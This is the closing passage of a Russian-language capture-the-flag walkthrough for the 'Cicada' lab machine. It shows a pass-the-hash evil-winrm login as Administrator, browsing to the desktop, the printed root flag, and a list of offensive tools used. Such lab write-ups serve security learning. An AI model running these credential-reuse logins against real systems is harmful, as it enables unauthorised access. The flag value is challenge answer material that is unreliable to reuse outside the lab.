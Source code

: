 Прекрасно, мы получили пароль от учетной записи `Administrator`
```
Hexada@hexada ~/app/cicada.htb$ evil-winrm -i cicada.htb -u administrator -H 2b87e7c93a3e8a0ea4a581*****                                                                      
                                        
Evil-WinRM shell v3.7
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> 
```

Наконец-то, мы можем достать нас заслуженный **Roor Flag** 
```
*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
```

```
*Evil-WinRM* PS C:\Users\Administrator> cd Desktop
```
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         3/14/2024   6:36 AM             32 .root.txt.txt
-a--s-         3/14/2024   3:45 AM            282 desktop.ini
-ar---         1/11/2025   1:11 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> more root.txt
f1c5738d010b6523475f061d9ffc7607
```

Поздравляю с прохождением машины
---
Использываемые инструменты: **nmap**, **netexec**, **smbclient**, **rpcclient**, **ldapsearch**, **evil-winrm**, **secretsdump**

